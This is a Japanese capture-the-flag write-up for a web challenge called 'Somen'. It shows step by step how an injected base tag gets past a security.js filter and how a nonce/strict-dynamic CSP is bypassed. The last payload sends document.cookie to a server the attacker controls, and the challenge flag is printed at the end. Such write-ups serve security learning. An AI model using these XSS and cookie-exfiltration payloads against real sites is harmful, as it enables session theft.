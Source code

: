 # Somen

421 pt (20 Solves)

```txt
Somen is tasty.
[url]
```

## 添付ファイル

- [worker.js](./attachments/worker.js)
- [index.php](./attachments/index.php)

## 概要

テキストボックスが2つある。1個は自分で実行、もう1個はクローラーに実行させる。  
usernameに入力した内容が挿入されるので、XSSだろう。
しかし`security.js`とCSPの所為で全然上手くいかない。

`worker.js`をみるとcookieにflagがあるのがわかる。  

## 解

目標は2つ。

1. security.jsの制限をバイパス
1. CSPのバイパス

### security.jsの制限をバイパス

```html
</title><base href="//example.com">
```

これを書き込むと以下のような状態になる。

```html
<base href="//example.com">  
<script src="./security.js">
```

`./security.js`は`example.com/security.js`として処理され、コンソールログに404が表示される。  

### CSPのバイパス

`security.js`はバイパスできたので次はCSPのバイパスを目指す。  
CSPの`nonce`と`strict-dynamic`のバイパスを調べてたら[良さげな記事](https://szarny.hatenablog.com/entry/2019/01/01/XSS_Challenge_%28%E3%82%BB%E3%82%AD%E3%83%A5%E3%83%AA%E3%83%86%E3%82%A3%E3%83%BB%E3%83%9F%E3%83%8B%E3%82%AD%E3%83%A3%E3%83%B3%E3%83%97_in_%E5%B2%A1%E5%B1%B1_2018_%E6%BC%94%E7%BF%92%E3%82%B3%E3%83%B3)。case23が似てる状況。  
既に実行を許可されたscriptタグの中に任意のjsを埋め込みたい。
case23を参考にとりあえず書いてみる。

```html
<p id="message">[username], I recommend Nagashi somen for you.</p>
```

のように代入されてるので、idがmessageなscriptタグを作る。

```txt
alert();//</title><script id="message"></script><base href="http://example.com">
```

上を入力するとHTMLは以下のようになる。HTMLとしては壊れてるけど、よしなにしてくれる。  
titleに代入されたうえでidがmessageなとこに代入されるので結構ごちゃごちゃ。

```html
 <title>Best somen for alert();//</title>
 <script id="message">
 alert();//</title><script id="message"></script><base href="http://example.com">, I recommend Nagashi somen for you.
 </script><base href="http://example.com">
```

アクセスされたときにurlを表示するようなwebサーバを用意して

```txt
document.location=`/?q=${encodeURIComponent(document.cookie)}`;//</title><script id="message"></script><base href="[url]">
```

を入力すればflag。

```txt
ctf4b{1_w0uld_l1k3_70_347_50m3n_b3f0r3_7ry1n6_70_3xpl017}
```
